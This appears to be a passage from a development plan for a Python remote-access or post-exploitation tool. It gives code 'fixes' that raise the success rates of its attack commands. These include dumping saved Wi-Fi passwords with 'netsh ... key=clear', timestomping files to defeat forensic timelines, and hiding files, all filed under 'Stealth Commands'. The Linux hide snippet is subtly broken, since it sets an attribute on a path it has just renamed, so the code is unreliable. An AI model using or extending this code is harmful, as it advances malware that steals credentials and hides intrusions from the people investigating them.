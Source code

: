 #### Fix `wifikeys` Command
**Current Success Rate:** 60%
**Target Success Rate:** 90%
**File:** `PyLib/wifikeys.py`
**Fix:**
```python
# Windows: Use netsh properly
netsh_cmd = "netsh wlan show profiles * key=clear"
# Linux: Parse NetworkManager files
# macOS: Use security command
```

### 2.2 Stealth Commands (All Broken)

#### Fix `timestomp` Commands
**Files:** `PyLib/editaccessed.py`, `PyLib/editcreated.py`, `PyLib/editmodified.py`
**Current:** Uses Windows API incorrectly
**Fix:**
```python
import win32file
import pywintypes

def set_file_times(filename, created=None, accessed=None, modified=None):
    handle = win32file.CreateFile(
        filename,
        win32file.GENERIC_WRITE,
        0,
        None,
        win32file.OPEN_EXISTING,
        0,
        None
    )
    win32file.SetFileTime(handle, created, accessed, modified)
    handle.Close()
```

#### Fix `hide`/`unhide` Commands
**Current Success Rate:** 40%
**Target:** 80%
**Files:** `PyLib/hide.py`, `PyLib/unhide.py`
**Fix:**
```python
# Windows: Set multiple attributes
import win32api, win32con
attrs = win32con.FILE_ATTRIBUTE_HIDDEN | win32con.FILE_ATTRIBUTE_SYSTEM
win32api.SetFileAttributes(filepath, attrs)

# Linux/Mac: Use dot prefix AND extended attributes
os.rename(file, f'.{file}')
xattr.setxattr(file, 'user.hidden', b'1')
```
